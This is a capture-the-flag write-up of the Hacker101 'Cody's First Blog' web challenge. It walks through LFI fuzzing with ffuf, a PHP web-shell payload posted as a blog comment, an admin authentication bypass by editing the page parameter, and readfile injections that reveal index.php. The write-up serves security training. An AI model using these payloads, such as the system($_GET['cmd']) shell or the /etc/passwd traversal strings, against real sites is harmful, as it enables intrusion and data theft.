




# Cody's First Blog
**Difficulty:** Moderate  
**Category:** Web  
**Flags:** 3/3

---

## 🧠 Thought Process
When I first accessed the website, I immediately started reconnaissance. I examined the content and checked the source code to understand the application structure. I noticed several potential attack vectors:

1. An admin login page referenced in the source code
2. A comment section for user input (potential injection point)
3. A mention of PHP `include()` function usage, suggesting possible Local File Inclusion (LFI)
4. The blog post mentioning that "PHP doesn't need a template language because it *is* a template language"

Multiple attack paths were available, so I decided to explore them systematically.

---

## 🔍 Step 1: Local File Inclusion (LFI) Discovery
I started by fuzzing for LFI vulnerabilities using `ffuf` with a wordlist from SecLists:

```bash
wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Fuzzing/LFI/LFI-Jhaddix.txt -O lfi.txt
ffuf -u "https://c663cfaeb30f0d6e6437dbf942b65ab7.ctf.hacker101.com/?page=../../../../FUZZ%00" -w lfi.txt -fs 0
```

The fuzzing revealed multiple LFI paths, including:
- `../../apache/logs/access.log`
- `/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd`
- Various other system files

However, when I tried to exploit these paths, I encountered inclusion errors, indicating the files weren't being properly included for execution.

---

## 🚩 Step 2: First Flag - Log Poisoning via Comment Section
Instead of continuing with the LFI approach, I pivoted to the comment section. I realized I could potentially poison log files by injecting PHP code through user input.

I submitted the following PHP payload in the comment form:
```php
<?php system($_GET['cmd']); ?>
```

**Surprisingly, this immediately revealed the first flag!** The comment section was directly executing PHP code without proper sanitization.



---

## 🔐 Step 3: Second Flag - Admin Panel Access
Next, I investigated the admin login page that was referenced in the HTML source:
```html
<!--<a href="?page=admin.auth.inc">Admin login</a>-->
```

I tried accessing `?page=admin.auth.inc` but it seemed to require authentication. However, I had a hunch about the file structure. I tried removing the "auth" portion from the URL:

**Before:** `?page=admin.auth.inc`
<br>


**After:** `?page=admin.inc`
<br>


This bypassed the authentication entirely! The admin panel was accessible, and the second flag was displayed right there.

---

## 📝 Step 4: Third Flag - Source Code Disclosure
For the final flag, I needed to read the source code of the application. I went back to the comment section and tried various PHP payloads to read files:

```php
<?php echo readfile("index.php")?>
<?php echo ("index.php")?>
```

After submitting these comments, they appeared in the admin panel but weren't visible on the client side. I realized I needed to find a way to make the comments execute properly.



Through research and experimentation, I discovered that by accessing:
```
/?page=http://localhost/index
```

This made the comments execute properly, and when I checked the source code of the resulting page, I could see the contents of `index.php` along with the third flag embedded in the source.



---

## 🏁 Captured Flags
- **Flag 1:** Found through direct PHP code execution in comments
- **Flag 2:** Discovered by bypassing admin authentication 
- **Flag 3:** Retrieved through source code disclosure via comment injection

---

## ✅ Summary
This challenge demonstrated multiple web vulnerabilities:

1. **Code Injection:** The comment system directly executed PHP code without sanitization
2. **Authentication Bypass:** Removing "auth" from the admin URL bypassed security
3. **Local File Inclusion:** Combined with code injection to read source files
4. **Improper Input Validation:** Multiple injection points throughout the application

The key lesson is that web applications using PHP's `include()` function with user input are extremely dangerous, especially when combined with insufficient input validation and authentication mechanisms.
